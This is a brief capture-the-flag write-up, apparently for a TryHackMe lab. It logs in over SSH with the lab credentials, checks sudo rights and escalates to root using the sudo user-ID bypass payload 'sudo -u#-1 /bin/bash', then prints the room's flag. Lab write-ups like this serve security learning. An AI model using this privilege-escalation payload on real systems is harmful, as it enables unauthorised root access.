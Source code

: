 
# Task 1: (Deploy the machine)

Basics of SSH can be read from manpage.

# Task 2: (Exploitation)

```
export IP=10.10.78.47
```

Username and password = tryhackme

Lets ssh on port 2222

```(ssh)
ssh tryhackme@$IP -p2222
```
Now lets test if we can run sudo command

```
sudo -l
```

This results in saying that we can run /bin/bash with sudo priviledges.
Let's try the sudo vulnerability payload.

```
sudo -u#-1 /bin/bash
```

Bingo. We are greeted with the root shell.

```
cat /root/root.txt
```

Flag:
```
THM{l33t_s3cur1ty_bypass}
```

